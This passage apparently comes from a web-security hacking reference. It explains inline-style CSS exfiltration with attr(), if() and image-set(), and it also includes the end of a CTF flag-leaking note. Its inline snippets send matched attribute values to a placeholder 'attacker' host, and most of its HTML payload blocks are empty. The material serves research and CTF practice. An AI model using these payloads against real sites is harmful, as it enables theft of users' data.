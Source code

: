 ```
> ```
>
> This allows the script to leak the secret faster.

> [!WARNING]
> Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
> No worries, just check the **output** because **you can see the flag there**.

### Inline-Style CSS Exfiltration (attr() + if() + image-set())

This primitive enables exfiltration using only an element's inline style attribute, without selectors or external stylesheets. It relies on CSS custom properties, the attr() function to read same-element attributes, the new CSS if() conditionals for branching, and image-set() to trigger a network request that encodes the matched value.

> [!WARNING]
> Equality comparisons in if() require double quotes for string literals. Single quotes will not match.

- Sink: control an element's style attribute and ensure the target attribute is on the same element (attr() reads only same-element attributes).
- Read: copy the attribute into a CSS variable: `--val: attr(title)`.
- Decide: select a URL using nested conditionals comparing the variable with string candidates: `--steal: if(style(--val:"1"): url(//attacker/1); else: url(//attacker/2))`.
- Exfiltrate: apply `background: image-set(var(--steal))` (or any fetching property) to force a request to the chosen endpoint.

Attempt (does not work; single quotes in comparison):

```html
test

```
```
Working payload (double quotes required in the comparison):

```html
test

```
```
Enumerating attribute values with nested conditionals:

```html

```
```
Realistic demo (probing usernames):

```html

```
```
Notes and limitations:

- Works on Chromium-based browsers at the time of research; behavior may differ on other engines.
- Best suited for finite/enumerable value spaces (IDs, flags, short usernames). Stealing arbitrary long strings without external stylesheets remains challenging.
- Any CSS property that fetches a URL can be used to trigger the request (e.g., background/image-set, border-image, list-style, cursor, content).

```